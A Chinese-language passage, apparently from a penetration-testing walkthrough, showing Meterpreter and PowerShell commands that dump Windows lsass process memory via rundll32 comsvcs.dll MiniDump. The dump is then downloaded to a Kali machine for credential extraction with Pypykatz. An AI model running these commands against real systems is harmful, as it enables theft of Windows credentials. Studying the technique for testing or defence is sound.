 之后使用同样的方法进行暴力破解即可。

### Pypykatz

首先我们将`lsass`进程内存 dump 下来

```bash
load powershell
powershell_shell
Get-Process Lsass
cd C:\Windows\System32
.\rundll32.exe comsvcs.dll, MiniDump 576 C:\lsass.DMP full
```

[![](assets/1708919803-89994a488dfe5d28b7ab4d056e3aecac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142302-2b689164-ce26-1.png)

将 dmp 文件下载到 kali 本机`download c:/lsass.dmp /home/kali/Desktop`
